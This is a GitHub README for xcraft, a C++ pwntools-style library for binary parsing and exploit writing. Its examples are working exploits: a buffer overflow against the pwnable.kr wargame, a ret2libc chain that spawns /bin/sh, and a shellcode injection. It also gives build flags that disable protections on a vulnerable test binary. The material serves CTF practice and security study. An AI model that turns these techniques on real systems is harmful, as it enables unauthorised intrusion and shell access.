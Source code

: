 <p align="center">
<img src="https://github.com/user-attachments/assets/5f5d8e34-faf6-4783-b23a-136d1a768cd6" alt="image" width="200"/>
</p>

# xcraft

> **Casting HeXes - Crafting Exploits - Conjuring shells**  
> A C++ “pwnlib‑style” grimoire for reverse‑engineering and exploit crafting.

xcraft is your arcane toolkit for diving into ELF, PE and Mach‑O artifacts.  
Think of it as pwnlib distilled through a cyber‑alchemist’s lens:

- 🔍 **Binary Parsing**  
  Seamless ELF/PE/Mach‑O introspection  
- 🌀 **ROP & Gadget‑Summoning**  
  Find, filter and chain gadgets in a single incantation  
- ⚓ **Symbol, GOT & PLT Lookup**  
  Resolve functions and pointers at will  
- 🧮 **Bit‑Level Conjuring**  
  Endian‑safe packing/unpacking, cyclic patterns, hex dumps  

xcraft is still in its early chapters, but the forge is hot. Share your own spells (PRs and issue‑reports welcome!).

## Examples

buffer overflow:
```cpp
#include <xcraft/xcraft.hpp>
#include <exception>
#include <iostream>
#include <string_view>

using namespace xcft;

constexpr uint16_t PORT   = 9000;
constexpr uint32_t OFFSET = 0x6161616e;
constexpr uint32_t PASS   = 0xcafebabe;

int main(int argc, char **argv) try {
    auto local = argc > 1 && std::string_view(argv[1]) == "local";

    std::string payload;
    payload += cyclic(cyclic_find(OFFSET));
    payload += p<uint32_t>(PASS);

    using UniqTube = std::unique_ptr<Tube>;

    auto io =
        local ? uniq_tube<Process>("./bin/bof") // the code from pwnable
              : uniq_tube<Remote>("pwnable.kr", PORT);

    io->writeln(payload);
    io->interactive();
} catch (const std::exception &ec) {
    std::cerr << ec.what() << std::endl;
}
```

ret2libc:
```cpp
#include <cstdint>
#include <xcraft/xcraft.hpp>
#include <iostream>

using namespace xcft;

// rip at 0x62616162
constexpr uint32_t RIP = 0x62616162;

int main() try {
    auto elf      = ELF("./bin/vuln");
    auto libc     = ELF("/lib/x86_64-linux-gnu/libc.so.6");
    auto puts_plt = elf.plt()["puts"];
    auto puts_got = elf.got()["puts"];
    auto main_sym = elf.symbols()["main"];
    auto rop      = ROP("./bin/vuln");
    auto pop_rdi  = rop.find_gadget({"pop rdi", "ret"}).at(0);
    auto ret      = rop.find_gadget({"ret"}).at(0);

    auto payload = from_ranges(
        cyclic(cyclic_find(RIP)),
        p<uint64_t>(pop_rdi),
        p<uint64_t>(puts_got),
        p<uint64_t>(ret),
        p<uint64_t>(puts_plt),
        p<uint64_t>(main_sym)
    );
    auto proc = Process("./bin/vuln");
    proc.writeln(payload);
    std::cout << proc.readln() << std::endl;

    auto leak_str = proc.readln();
    hex_println(leak_str);
    auto leak = up<uint64_t>(leak_str);
    std::cout << "0x" << std::hex << leak << std::endl;

    libc.set_address(leak - libc.symbols()["puts"]);
    auto system_sym = libc.symbols()["system"];
    auto bin_sh     = libc.strings()["/bin/sh"];
    auto exit_sym   = libc.symbols()["exit"];

    auto new_payload = from_ranges(
        cyclic(cyclic_find(RIP)),
        p<uint64_t>(pop_rdi),
        p<uint64_t>(bin_sh),
        p<uint64_t>(system_sym),
        p<uint64_t>(exit_sym)
    );
    proc.writeln(new_payload);
    proc.interactive();
} catch (const std::exception &e) {
    std::cerr << e.what() << std::endl;
}
```

shellcode injection:
```cpp
#include <xcraft/xcraft.hpp>
#include <exception>
#include <iostream>
#include <string_view>

using namespace xcft;

// rip clobber at 0x61676161
constexpr uint32_t RIP = 0x62616162;

int main(int argc, char **argv) try {
    auto use_gdb   = argc > 1 && std::string_view(argv[1]) == "use_gdb";
    auto elf       = ELF("./bin/vuln");
    auto jmp_rsp   = elf.search({"jmp rsp"}).at(0);
    auto offset    = cyclic_find(RIP);
    auto shellcode = linux_sh_x64();

    std::string payload;
    payload += cyclic(offset);
    payload += p<uint64_t>(jmp_rsp);
    payload += shellcode;

    auto vuln = "./bin/vuln";
    auto proc = use_gdb ? Gdb::debug(vuln, "b main\nc\n") : Process(vuln);
    proc.writeln(payload);
    proc.interactive();
} catch (const std::exception &ec) {
    std::cerr << ec.what() << std::endl;
}
```

## Dependencies
- asio
- subprocess.h
- magic-enum
- fmtlib
- LIEF
- capstone
- keystone
- googletest (for tests)

The CMake script uses FetchContent to grab the dependencies and build them. I haven't had the chance to automate things via vcpkg or conan mainly due to missing dependencies there (LIEF and Keystone).
The dependencies are private to xcraft and their headers are not exposed to the developer.

## Requirements
C++20 compiler. CMake > 3.18.

## Building
```bash
git clone https://github.com/MoAlyousef/xcraft
cd xcraft
# configure
cmake -Bbin -GNinja
# build
cmake --build bin
```

By default this builds a shared library libxcraft, this provides better link times.
To disable this, use `-DXCFT_BUILD_SHARED=OFF` in the configure step.

The default configure step will not build the examples nor the tests. To build those, use `-DXCFT_BUILD_EXAMPLES=ON` and `-DXCFT_BUIILD_TESTS=ON`.

A vulnerable source code in `examples/vuln.c` is used for the examples. Its not built by CMake. If you would like to build it you can use `gcc -o bin/vuln examples/vuln.c -zexecstack -fno-stack-protector -no-pie -D_FORTIFY_SOURCE=0`.

You can use CMake's FetchContent to incorporate xcraft into your project:
```cmake
include(FetchContent)
FetchContent_Declare(
  xcraft
  GIT_REPOSITORY https://github.com/MoAlyousef/xcraft
  GIT_SHALLOW    True
)
FetchContent_MakeAvailable(xcraft)
```

Otherwise, you can build the project and use the generated xcraft shared library and the public headers in `include/xcraft`.
